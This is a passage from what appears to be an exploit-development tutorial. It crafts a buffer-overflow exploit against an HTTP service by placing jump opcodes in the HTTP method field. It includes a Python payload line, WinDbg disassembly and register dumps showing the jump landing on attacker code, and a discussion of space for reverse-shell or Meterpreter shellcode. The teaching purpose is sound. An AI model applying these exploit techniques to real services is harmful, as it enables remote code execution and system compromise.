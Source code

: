 The last instruction contains three null bytes. This is problematic but remember that the rest of the space between the HTTP method and the slash and our payload is full of zeros. We can skip from sending these null bytes as they will be already stored in such place by the application:
```python
httpMethod = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"  # xor ecx, ecx; test ecx, ecx; je 0x17
```

If we send this and analyze the code, now the instructions are not mangled and that it is a clean jump to our shellcode:
```c
046bea74 31c9            xor     ecx,ecx
046bea76 85c9            test    ecx,ecx
046bea78 0f8411000000    je      046bea8f

0:008> u 046bea8f
046bea8f 41              inc     ecx
046bea90 41              inc     ecx
046bea91 41              inc     ecx
046bea92 41              inc     ecx
046bea93 41              inc     ecx
046bea94 41              inc     ecx
046bea95 41              inc     ecx
```

Let's see the ZF value after the XOR and TEST operations:
```c
0:008> r zf
zf=1
0:008> t
eax=046bfe60 ebx=01822bf0 ecx=00000000 edx=77ea2da0 esi=01822bf0 edi=0041703c
eip=046bea78 esp=046bea24 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
046bea78 0f8411000000    je      046bea8f                                [br=1]
0:008> t
eax=046bfe60 ebx=01822bf0 ecx=00000000 edx=77ea2da0 esi=01822bf0 edi=0041703c
eip=046bea8f esp=046bea24 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
046bea8f 41              inc     ecx
```

We successfully landed on our code, but if we see closely, we land on a 2 byte offset:
```c
0:008> dd 046bea8f-4
046bea8b  41412f00 41414141 41414141 41414141
```
This is not a problem as we can fix the offset, or add some NOPs before our shellcode in case that the offset is not consistent.
Once we know how to execute our code, the next step is to see if we have enough space.

After calculating how many "A"s does the buffer store, we see that the result is 251 bytes.
While generating a reverse shell payload in previous modules, the size of the resulting shellcode was over 300 bytes. A more advanced payload, such as a Meterpreter, would require even more space.
Even if we were to use the HTTP method buffer, rather than jumping over it, we would still not have enough space for a large payload.
